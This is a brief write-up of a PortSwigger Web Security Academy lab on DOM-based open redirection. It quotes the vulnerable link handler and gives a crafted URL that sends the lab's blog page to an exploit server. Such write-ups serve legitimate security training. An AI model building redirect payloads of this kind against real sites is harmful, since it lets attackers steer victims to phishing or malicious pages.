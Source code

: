 # DOM-based open redirection

## Description

[This lab](https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection) contains a DOM-based open-redirection vulnerability. 

## Reproduction and proof of concept

1. Analysis:

```
<div class="is-linkback">
    <a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
</div>
```

The `url` parameter allows changing the `Back to Blog` link in a Blog page.

2. Construct a URL for redirecting the user to the exploit server:

```text
https://0aee00de0391e705c3631bd500ca0028.web-security-academy.net/post?postId=1&url=https://exploit-0a18009403e3e7cec36e1a18019700ff.exploit-server.net/
```

3. Paste this url in browser and hit enter.

## Exploitability

An attacker needs to exploit this vulnerability and redirect the victim to an exploit server. 
